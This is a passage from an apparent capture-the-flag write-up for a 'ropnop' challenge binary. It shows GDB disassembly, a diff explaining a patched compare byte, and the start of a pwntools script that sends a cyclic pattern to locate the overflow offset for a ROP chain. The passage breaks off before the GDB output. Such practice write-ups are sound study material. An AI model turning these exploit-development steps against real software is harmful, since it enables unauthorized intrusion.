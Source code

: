 ```
0x0000555555555246 <+70>:    mov    edx,0x7
0x000055555555524b <+75>:    mov    DWORD PTR [rbp-0x1c],eax
0x000055555555524e <+78>:    call   0x555555555060 <mprotect@plt>
0x0000555555555253 <+83>:    mov    rcx,QWORD PTR [rbp-0x8]
0x0000555555555257 <+87>:    mov    QWORD PTR [rbp-0x18],rcx
0x000055555555525b <+91>:    mov    rax,QWORD PTR [rbp-0x18]
0x000055555555525f <+95>:    cmp    rax,QWORD PTR [rbp-0x10]
0x0000555555555263 <+99>:    je     0x555555555296 <ropnop+150>
0x0000555555555269 <+105>:   mov    rax,QWORD PTR [rbp-0x18]
0x000055555555526d <+109>:   movzx  ecx,BYTE PTR [rax]
0x0000555555555270 <+112>:   cmp    ecx,0x90
0x0000555555555276 <+118>:   jne    0x555555555283 <ropnop+131>
0x000055555555527c <+124>:   mov    rax,QWORD PTR [rbp-0x18]
0x0000555555555280 <+128>:   mov    BYTE PTR [rax],0x90
0x0000555555555283 <+131>:   mov    rax,QWORD PTR [rbp-0x18]
0x0000555555555287 <+135>:   add    rax,0x1
0x000055555555528d <+141>:   mov    QWORD PTR [rbp-0x18],rax
0x0000555555555291 <+145>:   jmp    0x55555555525b <ropnop+91>
0x0000555555555296 <+150>:   add    rsp,0x20
0x000055555555529a <+154>:   pop    rbp
0x000055555555529b <+155>:   ret
```

The difference is, that the cmp instruction, that compares the current byte with `0xc3`, got overwritten and is now a cmp instruction, that compares the byte to `0x90`.

```diff
28c28
< cmp    ecx,0xc3
---
> cmp    ecx,0x90
```

So essentially everything after this compare is not modified, because `0x90` will be replaced with `0x90`

But before we care about that we first have to get our ropchain working. The [pwntools](https://pypi.org/project/pwntools/) tool cyclic is very useful in this case.

```python
from pwn import *

p = process("./ropnop")

input() # delay the script to start gdb

p.sendline(cyclic(50))

p.interactive()

```

GDB reports:
